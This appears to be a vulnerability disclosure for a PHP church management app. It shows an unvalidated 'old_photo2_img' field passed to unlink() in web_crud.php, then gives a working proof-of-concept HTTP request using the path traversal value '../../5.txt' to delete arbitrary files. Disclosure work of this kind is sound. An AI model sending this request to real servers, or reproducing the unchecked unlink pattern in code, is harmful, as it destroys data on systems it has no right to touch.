 ### Vulnerability file address

In line 174 of `church/admin/app/web_crud.php`, `@unlink("../../assets/images/" . $_POST['old_photo2_img']);`,` $_POST['old_photo2_img']` parameters have not been restricted, which causes any file to be deleted

```php
if ($_FILES['photo2']['tmp_name'] != '') {
            $img1 = generateUniqueFilename($_FILES['photo2']);
            $filepath = "../../assets/images/" . $img1;

            if (move_uploaded_file($_FILES["photo2"]["tmp_name"], $filepath)) {
                @unlink("../../assets/images/" . $_POST['old_photo2_img']);
            }
        }
```

### POC

```http
POST /church/admin/app/web_crud.php HTTP/1.1
Host: www.church.net
Connection: close
Cookie: PHPSESSID=hl5noegsdjn1ru7skoi8tmqco3
Upgrade-Insecure-Requests: 1
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryTZGvWJmfBtMK9O8p
Content-Length: 373

------WebKitFormBoundaryTZGvWJmfBtMK9O8p
Content-Disposition: form-data; name="update2"

1
------WebKitFormBoundaryTZGvWJmfBtMK9O8p
Content-Disposition: form-data; name="old_photo2_img"

../../5.txt
------WebKitFormBoundaryTZGvWJmfBtMK9O8p
Content-Disposition: form-data; name="photo2";filename="aaa.php"

this is test
------WebKitFormBoundaryTZGvWJmfBtMK9O8p--
```

### Attack results pictures

First, we create a `5.txt` file in the `church/` directory

![image-20250504210511221](https://raw.githubusercontent.com/Amyppp/imgs/main/vuln/202505042105263.png)

Then we execute the above poc to attack

![image-20250504210635797](https://raw.githubusercontent.com/Amyppp/imgs/main/vuln/202505042106825.png)

Files are deleted after the attack is successful

![image-20250504210624688](https://raw.githubusercontent.com/Amyppp/imgs/main/vuln/202505042106720.png)